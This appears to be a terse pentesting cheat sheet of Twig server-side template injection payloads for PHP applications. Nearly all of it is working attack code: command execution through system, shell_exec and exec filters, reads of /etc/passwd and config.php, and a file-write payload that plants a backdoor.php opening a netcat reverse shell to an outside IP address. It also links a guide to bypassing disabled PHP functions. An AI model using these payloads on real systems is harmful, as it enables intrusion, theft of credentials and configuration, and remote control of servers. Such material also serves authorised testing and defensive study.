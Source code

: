 #php 
[[SSTI Templates engines]]

```twig
{{ constant('PHP_VERSION') }}
```

```twig
{{ dump() }}
```

##### functions
```twig
{{ system('whoami') }}  
{{ passthru('id') }}  
{{ shell_exec('ls -la') }}  
{{ `ls -la` }}  {# same as shell_exec #}
```

```twig
{{ 'id'|exec }}      
{{ 'ls -la'|shell }}
```

if dump doesnt work
```twig
{{ _self }}
{{ _context }}
```

check if we have access to symphony classes
```twig
{{ constant('Symfony\\Component\\Process\\Process')(['id']) }}
```

#### LFI
```twig
{{ include('/etc/passwd') }}  
{{ source('/var/www/html/config.php') }}
```

##### Read
```twig
{{['file:///www/src/Controller/DefaultController.php']|map('file_get_contents')|join}}
```

##### Write
```twig
{{['/www/public/backdoor.php',"<?php mb_send_mail('', '', '', '', '-H \"nc 3.124.142.205 16204 -e /bin/sh\"');"]|sort('file_put_contents')}}
```

##### Notes
https://github.com/alessiogiorgianni/JerryTok/blob/main/notes.txt

##### Bypass disabled functions
https://_thorns.gitbooks.io/bypass/content/bypass_php_system_functions_disabled_via_modcgi.html